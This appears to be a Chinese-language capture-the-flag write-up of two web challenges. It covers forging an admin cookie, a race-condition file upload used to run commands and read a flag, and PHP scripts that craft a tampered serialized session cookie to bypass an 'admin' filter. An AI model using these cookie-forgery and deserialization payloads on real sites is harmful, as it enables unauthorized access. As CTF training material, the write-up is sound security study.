

# 【pcb5-Uplssse】
注册admin，admin发现说只有admin能上传，猜测可能cookie验证，抓包

先url解码再Base64解码，发现`is_admin`为0；修改后成功进入文件上传
看到会对文件删除，就想到条件竞争，一个包上传一个包访问即可，多发几个包


可以看到也是有成功有失败的。接下来就是换成ls /和cat了
最后在`/flag6f67186d`中有flag

# 【pcb5-ez_php】
一个登录页面，账号密码不知道，抓包看一下，发现cookie信息base64解密后是php序列化字符串，构造对应脚本
```php
<?php  
  
namespace Session;  
  
class User {  
    private $username = "admin";  
}  
  
$obj = new User();  
  
echo base64_encode(serialize($obj));
```
这样可以构造对应的用户名信息，但是发现用其他字符串都会显示在页面，用admin就会报错，尝试之后猜测是会删除admin导致数量不一样（还以为是字符串逃逸）
所以我们改一下脚本，
1. 把`admin`改为`admadminin`,此时字符串数量是10
2. base64加密前把10改回5，这样服务器替换后就不会报错
```php
<?php  
  
namespace Session;  
  
class User {  
    private $username = "adadminmin";  
}  
  
$obj = new User();  
  
/* 1. 正常序列化 */$ser = serialize($obj);  
  
/* 2. 手动篡改字符串长度（10 → 5） */$ser = str_replace(  
    's:10:"adadminmin";',  
    's:5:"adadminmin";',  
    $ser  
);  
  
/* 3. 再 base64 */echo base64_encode($ser);
```

成功绕过，重定向到了仪表盘，然后把浏览器的cookie改一下即可；接下来就不会了
下面是得到的信息
1. cookie除了上面的`identification`后面还会出现`user_hash`默认是`9efab2399c7c560b34de477b9aa0a465`解密后发现是common，和个人信息管理页面显示的一样，不知道有没有联系
2. 在`dashboard.php`页面点击传入的文件会传入参数`?filename=`，此时会带上`user_hash`
3. 然后个人信息管理页面的操作一般也会带上`user_hash`。
4. 